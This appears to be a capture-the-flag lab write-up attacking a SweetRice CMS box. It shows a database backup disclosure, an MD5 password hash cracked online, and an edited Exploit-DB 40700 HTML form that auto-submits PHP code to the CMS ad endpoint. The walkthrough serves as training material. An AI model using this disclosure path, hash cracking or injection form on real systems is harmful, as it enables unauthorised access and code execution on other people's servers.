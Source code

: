 This is where I found the errors of my ways. The Backup Disclosure we found earlier was the key. However, i didn't add the ```/content``` directory for this to work. In the end the backup disclosure was found in ```http://10.10.111.161/content/inc/mysql_backup/```. 

Great! Pause the video and see how far we can get now. Lets get that backup file and see what we can do with it. 
```
http://10.10.111.161/content/inc/mysql_backup/mysql_bakup_20191129023059-1.5.1.sql
```
A .sql file what can we open that with. Well, I am a fan of sublime text so lets give that a shot. Looking at the beginning of the document it looks like a php file. A lengthy php file but none the less a php file. 

The php file has a line that will make you scroll forever right. In that line it gives some good information though. You can see the string of ```manager``` which could give us the username, and there is something resembling a hash after password ```42f749ade7f9e195bf475f37a44cafcb```. Lets try to use [crackstation](https://crackstation.net/) to see if we can crack it. Well that gives us a result, and it looks like an md5 hash. 

We have an username and password. What can we do with it because there hasn't been a place for us to try to log in. The vision of the brick wall approaching while riding a bike is coming to mind again. Let's play the video again and learn some more things.

## Exploitation ##

At first I thought the arbitrary code execution was a bust, but looking at the video again that will give us the login page we are looking for. Lets follow John Hammonds walk through on how to make this work for us. First lets copy the exploit so we can edit it to make it work for us.
```
searchsploit -m php/webapps/40700.html
```
That puts it in the directory you are working with. Now we are are going to have to change the html file. The first thing you need to change is the localhost to the IP of the machine and add the /content directory. Another change John made in his video is to change the html encoding in textarea. At the end of the editing it should resemble something like this.
```
<html>
<body onload="document.exploit.submit();">
<form action="http://10.10.111.161/content/as/?type=ad&mode=save" method="POST" name="exploit">
<input type="hidden" name="adk" value="hacked"/>
<textarea type="hidden" name="adv">
<?php
echo '<h1> Hacked </h1>';
phpinfo();?>

</textarea>
</form>
</body>
</html>
```
Don't forget that your IP will probably be different. The html file is complete, so lets run it.
```
firefox 40700.html
```
I didn't change the name of when I copied it into my local directory, so whatever your HTML file is name use that. This will bring you a login page. That's great because we already have a username and password.
{{<figure src="/images/Posts/009/login.jpg">}}
